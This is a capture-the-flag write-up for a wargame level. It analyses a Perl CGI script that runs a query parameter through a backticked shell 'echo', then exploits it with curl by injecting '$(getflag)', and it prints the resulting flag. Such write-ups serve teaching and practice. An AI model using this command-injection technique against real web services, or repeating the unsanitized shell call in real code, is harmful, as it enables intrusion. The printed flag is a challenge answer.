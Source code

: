 # level04

We can see a **Perl script** with the following contents :

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

We can make the following observations :

- This appears to be a CGI script
- The comment `# localhost 4747` indicates it might currently be running on the VM, on port 4747
- We can read a `echo $y 2>&1`. This is a shell command, we can assume this is executed - and the results are sent back to us.
- The `sub x` function that executes this command isn't called directly ; it's called as `x(param("x"))`
- This means that the `$y` that's echo'ed is the result of the param() function.
- param() returns query values ; `param("x")` returns the value of `x` in a URL (format `URL?x=value`)

We start by checking if the script is running :

```
curl localhost:4747
```

It is. Now, what can we do ?

We'd like to change `$y`. `$y` is the first argument of `x()`, which means it's the return value of `param("x")`. We send the program a value for `x` :

```
curl localhost:4747?x=value
```

As expected, curl displays `value`. The CGI ran `echo value 2>&1` and returned the result.

Now, we simply need to exploit it. We run :

```
curl localhost:4747?x='$(getflag)'
```

## The flag

The `getflag` command is ran, and we get our flag :

```
ne2searoevaevoem4ov4ar8ap
```